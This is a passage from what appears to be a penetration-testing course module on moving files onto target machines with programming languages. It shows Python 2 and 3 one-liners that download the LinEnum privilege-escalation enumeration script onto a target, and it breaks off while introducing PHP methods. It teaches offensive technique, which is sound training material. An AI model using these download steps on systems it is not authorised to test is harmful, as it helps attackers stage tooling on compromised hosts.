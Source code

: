 It's common to find different programming languages installed on the machines we are targetting. Programming languages such as Python, PHP, Perl, and Ruby are commonly available in Linux distributions but can also be installed on Windows, although this is far less common.

We can use some Windows default applications, such as `cscript` and `mshta`, to execute JavaScript or VBScript code. JavaScript can also run on Linux hosts.

According to Wikipedia, there are around [700 programming languages](https://en.wikipedia.org/wiki/List_of_programming_languages), and we can create code in any programing language, to download, upload or execute instructions to the OS. This section will provide a few examples using common programming languages.

---

## Python

Python is a popular programming language. Currently, version 3 is supported, but we may find servers where Python version 2.7 still exists. `Python` can run one-liners from an operating system command line using the option `-c`. Let's see some examples:

#### Python 2 - Download

  Transferring Files with Code

```shell-session
TurtleBB@htb[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

#### Python 3 - Download

  Transferring Files with Code

```shell-session
TurtleBB@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

---

## PHP

`PHP` is also very prevalent and provides multiple file transfer methods. [According to W3Techs' data](https://w3techs.com/technologies/details/pl-php), PHP is used by 77.4% of all websites with a known server-side programming language. Although the information is not precise, and the number may be slightly lower, we will often encounter web services that use PHP when performing an offensive operation.

Let's see some examples of downloading files using PHP.

In the following example, we will use the PHP [file_get_contents() module](https://www.php.net/manual/en/function.file-get-contents.php) to download content from a website combined with the [file_put_contents() module](https://www.php.net/manual/en/function.file-put-contents.php) to save the file into a directory. `PHP` can be used to run one-liners from an operating system command line using the option `-r`.
